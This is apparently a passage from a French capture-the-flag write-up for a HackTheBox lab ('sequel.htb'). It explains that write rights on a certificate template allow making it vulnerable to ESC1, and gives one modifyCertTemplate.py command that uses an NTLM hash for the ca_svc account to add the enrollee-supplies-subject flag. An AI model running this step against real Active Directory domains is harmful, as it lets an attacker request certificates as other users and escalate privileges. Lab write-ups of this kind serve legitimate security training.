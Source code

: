 

> [!TIP]
> Possibilité d'écrire les propriétés du Template, rendre vulnérable à [[ESC1]] !
### *ModifyCertTemplate*

Donner les droits de requêter un certificat pour un autre user

```BASH
python3 modifyCertTemplate.py -template DunderMifflinAuthentication sequel.htb/ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag
```
